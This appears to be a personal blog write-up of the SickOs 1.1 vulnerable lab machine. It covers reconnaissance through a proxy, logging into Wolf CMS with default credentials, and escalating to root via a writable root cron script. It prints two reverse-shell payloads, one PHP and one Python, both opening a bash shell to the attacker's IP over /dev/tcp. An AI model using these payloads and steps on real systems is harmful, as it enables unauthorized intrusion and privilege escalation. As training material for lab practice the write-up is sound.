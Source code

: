 ```yaml
---
published: true
layout: post
---
```

[SickOs: 1.1](https://www.vulnhub.com/entry/sickos-11,132/) is a vulnerable machine with an objective to get root and read file /root/a0216ea4d51874464078c618298b1367.txt


To get VM's IP I used nmap
	
![]({{site.baseurl}}/images/sickos1.png)

Output gave me information that VM runs http proxy. I configured Firefox to use it and tried to access VM's localhost. 

![]({{site.baseurl}}/images/sickos2.png)

I succeeded and noticed a simple website. I tried robots.txt and found out that there is Wolf CMS run under /wolfcms

![]({{site.baseurl}}/images/sickos3.png)

I asked google for some information about Wolf CMS and found two directories used for installation process - /install and /docs. I tried both but only /docs was available. In file http://localhost/wolfcms/docs/install.txt I found default credentials, but I didn't know where to put them. I went to google again and searched for URL to admin panel which occurred to be http://localhost/wolfcms/?/admin/login.
Default credentials worked and I got access to administration panel.

![]({{site.baseurl}}/images/sickos4.png)

From this place I was able to upload reverse shell and connect to VM.

	<?php
	exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.175.1/8888 0>&1'");
	?>

After I got access to shell and started investigation what this machines does. I found that there is a cron running python script as root every minute. Fortunately I had permission to overwrite this file.

![]({{site.baseurl}}/images/sickos5.png)

I uploaded reverse shell again, but this time written in python.

	#!/usr/bin/python
	import os
	os.system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.175.1/9999 0>&1'")

I used existing shell to overwrite script with uploaded one, then I ran netcat on port 9999 and waited one minute until I got root shell.

![]({{site.baseurl}}/images/sickos6.png)

![]({{site.baseurl}}/images/sickos7.png)